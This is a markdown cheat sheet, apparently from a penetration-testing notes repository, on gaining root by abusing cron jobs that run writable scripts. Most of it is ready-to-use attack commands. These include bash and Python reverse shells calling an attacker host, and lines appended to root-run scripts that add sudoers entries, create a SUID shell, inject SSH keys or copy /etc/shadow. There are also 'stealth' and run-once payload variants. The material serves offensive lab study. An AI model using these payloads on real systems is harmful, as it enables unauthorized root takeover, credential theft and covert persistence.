 # ⏰ Cron Job Abuse

## 🎯 Overview

Misconfigured cron jobs running as root with writable scripts provide privilege escalation opportunities through script modification and command injection.

## 🔍 Cron Job Enumeration

### Find Cron Jobs
```bash
# System cron jobs
cat /etc/crontab
ls -la /etc/cron.d/
ls -la /etc/cron.daily/
ls -la /etc/cron.hourly/
ls -la /etc/cron.weekly/
ls -la /etc/cron.monthly/

# User cron jobs
crontab -l
ls -la /var/spool/cron/crontabs/
```

### Find Writable Scripts
```bash
# World-writable files that could be cron scripts
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

# Common backup/maintenance script locations
find /opt /usr/local -name "*.sh" -perm -o+w 2>/dev/null
find /home -name "backup*" -type f 2>/dev/null
```

## 🕵️ Process Monitoring with pspy

### Install and Run pspy
```bash
# Download pspy
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
chmod +x pspy64

# Monitor processes and file system events
./pspy64 -pf -i 1000
```

### Identify Cron Patterns
```bash
# Look for patterns in pspy output:
# UID=0 (root execution)
# PID patterns (new processes)
# File system events
# Recurring commands

# Example output:
# 2020/09/04 20:46:01 CMD: UID=0 PID=2201 | /bin/bash /dmz-backups/backup.sh
```

## 🎯 Exploitation Techniques

### Script Modification
```bash
# 1. Identify writable script
ls -la /dmz-backups/backup.sh
# -rwxrwxrwx 1 root root 230 Aug 31 02:39 backup.sh

# 2. Backup original (IMPORTANT!)
cp /dmz-backups/backup.sh /tmp/backup.sh.bak

# 3. Append reverse shell
echo 'bash -i >& /dev/tcp/attacker_ip/443 0>&1' >> /dmz-backups/backup.sh

# 4. Setup listener
nc -lnvp 443

# 5. Wait for cron execution
```

### Timing Analysis
```bash
# Check backup file timestamps to determine frequency
ls -la /dmz-backups/
# Look for patterns:
# www-backup-2020831-02:24:01.tgz
# www-backup-2020831-02:27:01.tgz  # Every 3 minutes!
# www-backup-2020831-02:30:01.tgz
```

## 🚀 Common Payloads

### Reverse Shell
```bash
# Bash reverse shell
bash -i >& /dev/tcp/attacker_ip/port 0>&1

# Python reverse shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Privilege Escalation
```bash
# Add user to sudoers
echo 'echo "user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers' >> script.sh

# Create SUID binary
echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' >> script.sh

# SSH key injection
echo 'mkdir -p /root/.ssh; echo "ssh-rsa AAAA..." >> /root/.ssh/authorized_keys' >> script.sh
```

### File Extraction
```bash
# Copy sensitive files
echo 'cp /etc/shadow /tmp/shadow_copy; chmod 644 /tmp/shadow_copy' >> script.sh

# Exfiltrate data
echo 'tar czf /tmp/root_data.tar.gz /root/' >> script.sh
```

## 🔧 Advanced Techniques

### Stealth Modifications
```bash
# Preserve original functionality
# Original script:
#!/bin/bash
SRCDIR="/var/www/html"
DESTDIR="/dmz-backups/"
FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR

# Modified with stealth:
#!/bin/bash
SRCDIR="/var/www/html"
DESTDIR="/dmz-backups/"
FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
bash -i >& /dev/tcp/10.10.14.3/443 0>&1  # Added line
```

### Conditional Payloads
```bash
# Execute only once
if [ ! -f /tmp/.executed ]; then
    bash -i >& /dev/tcp/attacker_ip/443 0>&1
    touch /tmp/.executed
fi
```

## 📋 Detection Script

```bash
#!/bin/bash
echo "=== CRON JOB ABUSE ENUMERATION ==="

echo "[+] System cron jobs:"
cat /etc/crontab 2>/dev/null

echo "[+] Cron directories:"
find /etc -name "cron*" -type d 2>/dev/null

echo "[+] World-writable files (potential cron scripts):"
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null | head -10

echo "[+] Backup scripts:"
find / -name "*backup*" -type f 2>/dev/null | head -10

echo "[+] Scripts in common cron locations:"
find /opt /usr/local /home -name "*.sh" 2>/dev/null | head -10

echo "[+] Recent files (potential cron outputs):"
find / -type f -mmin -5 2>/dev/null | head -10
```

## 🔑 Quick Reference

### Immediate Checks
```bash
# Find writable scripts
find / -name "*.sh" -perm -o+w 2>/dev/null

# Check cron jobs
cat /etc/crontab | grep -v "^#"

# Look for backup patterns
ls -la /var/backups/ /opt/backups/ /home/*/backup* 2>/dev/null
```

### Emergency Exploitation
```bash
# If writable script found
echo 'bash -i >& /dev/tcp/IP/PORT 0>&1' >> writable_script.sh

# Monitor with pspy (if available)
./pspy64 -pf -i 1000

# Simple process monitoring
watch -n 1 'ps aux | grep -E "(backup|cron|root.*\.sh)"'
```

### Timing Patterns
```bash
# Every minute: * * * * *
# Every 3 minutes: */3 * * * *  
# Every hour: 0 * * * *
# Daily at midnight: 0 0 * * *

# Check file timestamps for frequency
stat backup_file* | grep Modify
```

---

*Cron job abuse exploits automated administrative tasks - writable scripts executed as root provide direct privilege escalation through command injection and script modification.* 